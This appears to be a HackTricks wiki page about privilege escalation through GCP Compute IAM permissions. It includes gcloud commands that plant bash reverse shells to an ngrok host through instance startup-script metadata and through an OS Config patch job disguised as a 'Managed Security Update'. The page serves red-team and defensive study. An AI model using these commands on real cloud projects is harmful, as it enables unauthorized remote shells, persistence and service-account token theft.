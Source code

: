 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

For more information about Compute and VPC (netowork) in GCP check:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Note that to perform all the privilege escalation atacks that require to modify the metadata of the instance (like adding new users and SSH keys) it's **needed that you have `actAs` permissions over the SA attached to the instance**, even if the SA is already attached!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

With that permission you can **modify** the **metadata** information of an **instance** and change the **authorized keys of a user**, or **create** a **new user with sudo** permissions. Therefore, you will be able to exec via SSH into any VM instance and steal the GCP Service Account the Instance is running with.\
Limitations:

* Note that GCP Service Accounts running in VM instances by default have a **very limited scope**
* You will need to be **able to contact the SSH** server to login

For more information about how to exploit this permission check:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

You could aslo perform this attack by adding new startup-script and rebooting the instance:

```bash
gcloud compute instances add-metadata my-vm-instance \
    --metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```

### `compute.instances.setMetadata`

This permission gives the **same privileges as the previous permission** but over a specific instances instead to a whole project. The **same exploits and limitations as for the previous section applies**.

### `compute.instances.setIamPolicy`

This kind of permission will allow you to **grant yourself a role with the previous permissions** and escalate privileges abusing them.

### **`compute.instances.osLogin`**

If **OSLogin is enabled in the instance**, with this permission you can just run **`gcloud compute ssh [INSTANCE]`** and connect to the instance. You **won't have root privs** inside the instance.

{% hint style="success" %}
In order to successfully login with this permission inside the VM instance, you need to have the `iam.serviceAccounts.actAs` permission over the SA atatched to the VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

If **OSLogin is enabled in the instanc**e, with this permission you can just run **`gcloud compute ssh [INSTANCE]`** and connect to the instance. You will have **root privs** inside the instance.

{% hint style="success" %}
In order to successfully login with this permission inside the VM instance, you need to have the `iam.serviceAccounts.actAs` permission over the SA atatched to the VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

It's possible to **create a virtual machine with an assigned Service Account and steal the token** of the service account accessing the metadata to escalate privileges to it.

The exploit script for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

If you have the **`osconfig.patchDeployments.create`** or **`osconfig.patchJobs.exec`** permissions you can create a [**patch job or deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). This will enable you to move laterally in the environment and gain code execution on all the compute instances within a project.

Note that at the moment you **don't need `actAs` permission** over the SA attached to the instance.

If you want to manually exploit this you will need to create either a [**patch job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **or** [**deployment**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
For a patch job run:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
  --instance-filter-names=zones/us-central1-a/instances/<instance-name> \
  --pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
  --reboot-config=never \
  --display-name="Managed Security Update" \
  --duration=300s
```
{% endcode %}

To deploy a patch deployment:

```bash
gcloud compute os-config patch-deployments create <name> ...
```

The tool [patchy](https://github.com/rek7/patchy) could been used in the past for exploiting this misconfiguration (but now it's not working).

**An attacker could also abuse this for persistence.**

### `compute.machineImages.setIamPolicy`

**Grant yourself extra permissions** to compute Image.

### `compute.snapshots.setIamPolicy`

**Grant yourself extra permissions** to a disk snapshot.

### `compute.disks.setIamPolicy`

**Grant yourself extra permissions** to a disk.

### Bypass Access Scopes

Following this link you find some [**ideas to try to bypass access scopes**](../).

### Local Privilege Escalation in GCP Compute instance

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
